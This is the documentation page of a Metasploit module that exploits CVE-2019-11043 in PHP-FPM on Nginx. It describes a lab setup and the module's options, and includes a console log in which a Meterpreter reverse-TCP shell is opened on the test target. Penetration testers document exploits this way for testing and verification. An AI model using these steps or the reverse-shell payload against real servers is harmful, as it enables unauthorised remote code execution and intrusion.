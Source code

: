 This module exploits an underflow vulnerability in versions 7.1.x below 7.1.33,
7.2.x below 7.2.24 and 7.3.x below 7.3.11 of PHP-FPM on Nginx. Only servers with
certains Nginx + PHP-FPM configurations are exploitable. This is a port of the
original neex's exploit code (see refs.). First, it detects the correct
parameters (Query String Length and custom header length) needed to trigger code
execution. This step determines if the target is actually vulnerable (Check
method). Then, the exploit sets a series of PHP INI directives to create a file
(`/tmp/a`) locally on the target, which enables code execution through a query
string parameter (`?a=<cmd>`). This is used to execute normal payload stagers.
Finally, this module does some cleanup by killing local PHP-FPM workers (those
are spawned automatically once killed) and removing the created local file
(`/tmp/a`).

## Vulnerable Application

- Install Nginx on Linux (`apt-get install nginx`)
- get the vulnerable PHP:

```
git clone https://github.com/php/php-src
# checkout the fix
git -C php-src checkout ab061f95ca966731b1c84cf5b7b20155c0a1c06a
# checkout the commit previous to the fix
git -C php-src checkout HEAD~1
```

- make sure the default Nginx configuration contains these entries and no script
  existence checks (like `try_files`):

```
location ~ [^/]\.php(/|$) {
  ...
  fastcgi_split_path_info ^(.+?\.php)(/.*)$;
  fastcgi_param PATH_INFO       $fastcgi_path_info;
  fastcgi_pass   php:9000;
  ...
}
```

See original PoC for details: https://github.com/neex/phuip-fpizdam

An easiest way to setup a vulnerable instance is to use the docker configuration
provided by the author
(https://github.com/neex/phuip-fpizdam/tree/master/reproducer)

## Verification Steps

Preparing the target:

1. `git clone https://github.com/neex/phuip-fpizdam`
2. `cd phuip-fpizdam/reproducer/`
3. `docker build -t reproduce-cve-2019-11043 .`
4. `docker run --rm -p 192.168.6.6:8080:80 --name reproduce-cve-2019-11043 reproduce-cve-2019-11043`

Running the exploit:

1. `./msfconsole`
2. `use exploit/multi/http/php_fpm_rce`
3. `set RHOSTS 192.168.6.6`
4. `set RPORT 8080`
5. `set TARGETURI /script.php`
6. `set PAYLOAD php/meterpreter/reverse_tcp`
7. `set LHOST 192.168.6.6`
8. `run`

## Options

**TARGETURI** Path to a PHP page (`/index.php` by default). This must be a valid
page.

## Advanced Options

**MinQSL** Minimum query string length (QSL). The QSL detection engine will
iterate starting from this value (1500 by default). This option is required.

**MaxQSL** Maximum query string length (QSL). The QSL detection engine will
iterate until this value is reached (1950 by default). This option is required.

**QSLHint** Query string length hint. This value will be used as a QSL
candidate. Note that setting this value skips the QSL detection.

**QSLDetectStep** Query string length detect step. The QSL detection engine will
iterate with this step value (5 by default). This option is required.

**MaxQSLCandidates** Maximum query string length candidates. When the number of
QSL candidates found during the QSL detection phase is greater than this value
(10 by default), this indicates that something went wrong and we were not able
to detect the correct values. This option is required.

**MaxQSLDetectDelta** Maximum query string length detection delta. This value is
the maximum distance between the candidate and the extended values (10 by
default). For example, with a value of 20 and QSLDetectStep set to 5, candidate
[1700] will be extended to [1680, 1685, 1690, 1695, 1700]. This option is
required.

**MaxCustomHeaderLength** Maximum custom header length. This value is the
maximum length that will be used for the custom header during the parameters
detection (256 by default). This option is required.

**CustomHeaderLengthHint** Custom header length hint. This value will be used as
the custom header length. Note that setting this value skips the custom header
length detection.

**DetectMethod** Method that will be used to detect if the target is vulnerable.
Available methods:

1. `session.auto_start`: this method consist in setting the `session.auto_start`
   PHP option to 1. If the response contains `PHPSESSID=` set-cookie value, this
   means the PHP option has been correctly set and the target is vulnerable.
2. `output_handler.md5`: this method consist in setting the `output_handler` PHP
   option to `md5`. If the response is a md5 hash (16 characters), this means
   the PHP option has been correctly set and the target is vulnerable.

**OperationMaxRetries** Maximum of operation retries. Each operation will be
repeated at most `OperationMaxRetries` times.

## Scenarios

### Ubuntu 18.04 + nginx 1.14.0 + PHP 7.1.33dev (fpm-fcgi) (built: Feb 14 2020 16:48:15)

```
msf5 > use exploit/multi/http/php_fpm_rce
msf5 exploit(multi/http/php_fpm_rce) > set RHOSTS 192.168.6.6
RHOSTS => 192.168.6.6
msf5 exploit(multi/http/php_fpm_rce) > set RPORT 8080
RPORT => 8080
msf5 exploit(multi/http/php_fpm_rce) > set TARGETURI /script.php
TARGETURI => /script.php
msf5 exploit(multi/http/php_fpm_rce) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf5 exploit(multi/http/php_fpm_rce) > set LHOST 192.168.6.6
LHOST => 192.168.6.6
msf5 exploit(multi/http/php_fpm_rce) > run

[*] Started reverse TCP handler on 192.168.6.6:4444
[*] Sending baseline query...
[*] Detecting QSL...
[+] The target is probably vulnerable. Possible QSLs: [1765]
[*] Doing sanity check...
[*] Detecting attack parameters...
[+] Parameters found: QSL=1760, customh_length=69
[+] Target is vulnerable!
[*] Performing attack using php.ini settings...
[+] Success! Was able to execute a command by appending 'which+which'
[*] Trying to cleanup /tmp/a...
[+] Cleanup done!
[*] Sending payload...
[*] Sending stage (38288 bytes) to 192.168.6.6
[*] Meterpreter session 1 opened (192.168.6.6:4444 -> 192.168.6.6:59177) at 2020-02-14 12:03:45 -0600
[+] Session created
[*] Remove /tmp/a and kill workers...
[+] Done!

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 832efebeac57
OS          : Linux 832efebeac57 4.9.184-linuxkit #1 SMP Tue Jul 2 22:58:16 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
